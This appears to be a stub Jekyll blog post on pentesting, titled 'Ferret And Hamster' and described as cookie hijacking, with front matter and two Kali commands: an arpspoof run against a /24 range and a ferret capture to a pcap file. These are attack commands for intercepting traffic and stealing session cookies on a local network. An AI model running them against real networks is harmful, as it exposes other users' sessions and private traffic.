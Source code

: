 ```yaml
---
layout: post
title: Ferret And Hamster
categories: [Pentesting]
tags: [Kali, Linux]
description: Coockie Hijack
fullview: true
comments: true
---
```


{% highlight yaml %}
$arpspoof -i wlan0 -t (RANGE_OF_IP/24)
$feret -i wlan0 -r sniff.pcap
{% endhighlight %}
